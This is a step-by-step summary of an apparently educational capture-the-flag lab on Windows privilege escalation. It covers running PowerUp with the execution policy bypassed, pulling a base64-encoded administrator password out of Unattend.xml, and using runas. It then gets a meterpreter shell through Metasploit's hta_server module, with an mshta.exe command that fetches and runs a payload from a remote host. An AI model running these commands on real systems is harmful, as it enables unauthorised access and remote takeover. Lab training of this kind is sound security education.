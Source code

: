 

Here are the summary steps from the document in bullet points:

1. Step 1: Begin by switching to the attacker machine for locating a privilege escalation vulnerability.
    
2. Step 2: Open a PowerShell terminal to check the current user. It is revealed that you are running as a student user and provided with the PowerSploit framework and PowerUp.ps1 scripts.
    
3. Step 3: Run the PowerUp.ps1 PowerShell script to find privilege escalation vulnerabilities.
    
    - Commands:
        - Open PowerShell: `Powershell.exe`
        - Navigate to the PowerUp directory: `cd .\Desktop\PowerSploit\Privesc\`
        - List the files: `ls`
4. Step 4: Import PowerUp.ps1 script and invoke the Invoke-PrivescAudit function.
    
    - Commands:
        - Set PowerShell execution policy to bypass: `powershell -ep bypass`
        - Import PowerUp.ps1: `. .\PowerUp.ps1`
        - Invoke PrivescAudit function: `Invoke-PrivescAudit`
        - Notice the presence of an Unattend.xml file and open it.
5. Step 5: Read the Unattend.xml file to discover encoded administrator credentials.
    
    - Command: `cat C:\Windows\Panther\Unattend.xml`
6. Step 6: Decode the administrator password using PowerShell.
    
    - Commands:
        - Set password variable: `$password='QWRtaW5AMTIz'`
        - Decode the password: `$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))`
        - Display the decoded password: `echo $password`
7. Step 7: Run a command prompt as an administrator user using discovered credentials.
    
    - Commands: `runas.exe /user:administrator cmd`
        - Enter the decoded password: `Admin@123`
        - Check the current user with `whoami`.
8. Step 8: Switch to the Kali machine to run the hta_server module and gain a meterpreter shell.
    
    - Commands:
        - Start Metasploit: `msfconsole -q`
        - Use the hta_server exploit module: `use exploit/windows/misc/hta_server`
        - Exploit and copy the generated payload, e.g., "[http://10.10.0.2:8080/6Nz7aySfPN.hta](http://10.10.0.2:8080/6Nz7aySfPN.hta)."
        - Run the payload on the target's cmd.exe with the `mshta` command.
9. Step 9: On the target machine, run the meterpreter shell payload using `mshta.exe`.
    
    - Command:
        - Replace the HTA server link with your own: `mshta.exe http://10.10.0.2:8080/6Nz7aySfPN.hta`
10. Step 10: Find and access the flag using the meterpreter shell.
    
    - Commands:
        - Connect to the meterpreter session: `sessions -i 1`
        - Navigate to the Desktop: `cd C:\\Users\\Administrator\\Desktop`
        - List the directory contents: `dir`
        - Display the flag content: `cat flag.txt`
11. You have successfully revealed the flag.
    
    - Flag: `097ab83639dce0ab3429cb0349493f60`


https://assets.ine.com/labs/ad-manuals/walkthrough-2106.pdf